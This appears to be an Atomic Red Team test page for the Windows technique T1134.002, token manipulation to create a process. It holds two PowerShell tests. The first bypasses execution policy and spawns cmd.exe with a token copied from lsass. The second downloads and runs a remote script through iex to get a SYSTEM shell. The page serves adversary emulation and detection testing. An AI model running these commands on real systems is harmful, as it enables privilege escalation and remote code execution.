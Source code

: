 ```yaml
---
tags: [T1134_002, atomic_test]
filename: "[[T1134.002 - Create Process with Token]]"
---
```

# T1134.002 - Create Process with Token

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
& "$PathToAtomicsFolder\T1134.002\src\GetToken.ps1"; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique
Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```






<br/>
